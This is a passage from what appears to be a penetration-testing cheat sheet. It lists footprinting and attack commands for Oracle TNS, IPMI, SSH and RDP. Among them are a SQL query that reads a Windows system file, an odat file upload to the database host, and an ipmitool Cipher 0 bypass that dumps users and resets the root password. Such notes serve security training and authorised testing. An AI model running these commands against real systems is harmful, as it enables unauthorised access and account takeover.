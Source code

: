 ```
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```


#### Oracle TNS

| **Command**                                                                                                                  | **Description**                                                                                         |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `python3 ./odat.py all -s <FQDN/IP>`                                                                                         | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>`                                                                                       | Log in to the Oracle database.                                                                          |
| `python3 ./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS.                                                                        |


#### IPMI

| **Command**                                                                                            | **Description**                                                                                                                                         |
| ------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| nmap -n-sU -p 623 $ip/24                                                                               | Enumerate in a network range                                                                                                                            |
| sudo nmap -sU --script ipmi* -p 623 $ip                                                                | Run all nmap scripts related to ipmi protocol                                                                                                           |
| `msf6 auxiliary(scanner/ipmi/ipmi_version)`                                                            | IPMI version detection.                                                                                                                                 |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)`                                                         | Dump IPMI hashes. Similar to the The IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval attack                                                 |
| apt-get install ipmitool<br>ipmitool -I lanplus -C 0 -H  $ip -U root -P root user list                 | **The IPMI Authentication Bypass via Cipher 0 attack**<br>Install ipmitool and use Cipher 0 to dump a list of users. With -C 0 any password is accepted |
| apt-get install ipmitool<br>ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123 | **The IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval attack** <br>Install ipmitool and change the password of root                         |
|                                                                                                        | **The IPMI Anonymous Authentication attack**                                                                                                            |

### Linux Remote Management

| **Command**                                                 | **Description**                                       |
| ----------------------------------------------------------- | ----------------------------------------------------- |
| `ssh-audit.py <FQDN/IP>`                                    | Remote security audit against the target SSH service. |
| `ssh <user>@<FQDN/IP>`                                      | Log in to the SSH server using the SSH client.        |
| `ssh -i private.key <user>@<FQDN/IP>`                       | Log in to the SSH server using private key.           |
| `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password` | Enforce password-based authentication.                |

### Windows Remote Management

#### [RDP](3389-rdp.md)

| **Command**                                                                                                      | **Description**                                                                                                                                                                                                                                                                  |
| ---------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| nmap -Pn -sV -p3389 --script rdp-*  $ip                                                                          | Footprinting RDP                                                                                                                                                                                                                                                                 |